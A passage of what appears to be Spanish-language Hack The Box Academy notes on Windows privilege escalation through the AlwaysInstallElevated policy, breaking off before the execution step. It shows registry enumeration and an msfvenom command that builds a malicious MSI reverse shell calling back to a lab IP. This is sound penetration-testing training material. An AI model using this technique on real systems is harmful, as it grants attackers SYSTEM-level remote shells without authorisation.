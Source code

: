 Vale la pena revisar este proyecto y familiarizarse con tantos binaries, scripts y libraries como sea posible. Podrían ser muy útiles durante una evaluación evasiva o en una en la que el cliente nos restrinja a solo una instancia gestionada de Windows workstation/server para probar.

---

## Always Install Elevated

Esta configuración se puede establecer a través de Local Group Policy configurando `Always install with elevated privileges` como `Enabled` en las siguientes rutas:

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

![image](https://academy.hackthebox.com/storage/modules/67/alwaysinstall.png)

### Enumerating Always Install Elevated Settings

Vamos a enumerar esta configuración.

```r
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```r
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Nuestra enumeración nos muestra que la clave `AlwaysInstallElevated` existe, por lo que la política está habilitada en el sistema objetivo.

### Generating MSI Package

Podemos explotar esto generando un `MSI` package malicioso y ejecutándolo a través de la línea de comandos para obtener un reverse shell con privilegios de SYSTEM.

```r
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

### Executing MSI Package

Podemos subir este archivo MSI a nuestro objetivo, iniciar un listener Netcat y ejecutar el archivo desde la línea de comandos de esta manera:

